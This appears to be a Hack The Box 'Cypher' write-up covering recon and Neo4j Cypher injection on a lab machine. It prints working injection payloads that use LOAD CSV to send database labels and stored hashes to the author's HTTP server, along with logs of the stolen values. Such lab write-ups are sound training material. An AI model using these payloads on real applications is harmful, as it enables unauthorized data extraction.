

repository: gmrvh/blog · page: htb/cypher/index.html · generator: mkdocs

## Initial Reconnaissance
### WhatWeb Results
```
Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], 
IP[10.129.10.93], JQuery[3.6.1], Script, Title[GRAPH ASM], nginx[1.24.0]
```
### Interesting Directories
- `/api/auth`
- `/testing`
## Neo4j Cypher Injection Analysis
### Initial Testing
Upon discovering the application was using Neo4j, I began testing for Cypher injection vulnerabilities. I set up an HTTP web server to receive query results and found that the `username` parameter was injectable, while the `password` parameter was not.
### Enumerating Database Schema
I injected the following query to retrieve all database labels:
```cypher
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.17/?label='+label as l RETURN 0 as _0 //
```
#### Web Server Log Results
```bash
➜  ~ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.10.93 - - [25/Apr/2025 10:18:44] "GET /?label=USER HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:46] "GET /?label=HASH HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:48] "GET /?label=DNS_NAME HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:50] "GET /?label=SHA1 HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:54] "GET /?label=SCAN HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:55] "GET /?label=ORG_STUB HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:18:58] "GET /?label=IP_ADDRESS HTTP/1.1" 200 -
```
### Extracting User Information
Next, I extracted user and hash information using the following payload:
```cypher
' OR 1=1 WITH 1 as a MATCH (h:SHA1) UNWIND keys(h) as p LOAD CSV FROM 'http://10.10.16.17/?' + p +'='+toString(h[p]) as l RETURN 0 as _0 //
```
#### Response
```bash
10.129.10.93 - - [25/Apr/2025 10:27:45] "GET /?value=graphasm HTTP/1.1" 200 -
10.129.10.93 - - [25/Apr/2025 10:29:40] "GET /?value=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -
```
### Understanding the Query Structure
By forcing an error, I was able to understand the original query structure:
```cypher
message: Query cannot conclude with MATCH (must be a RETURN clause, a FINISH clause, an update clause, a unit subquery call, or a procedure call with no YIELD). (line 1, column 1 (offset: 0))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = ''//' return h.value as hash"
```
## Custom APOC Extension Analysis
After standard authentication bypass techniques failed, I investigated further and found a JAR file in the `/testing` directory named `custom-apoc-extension-1.0-SNAPSHOT.jar`. This appeared to be a custom APOC extension for Neo4j.
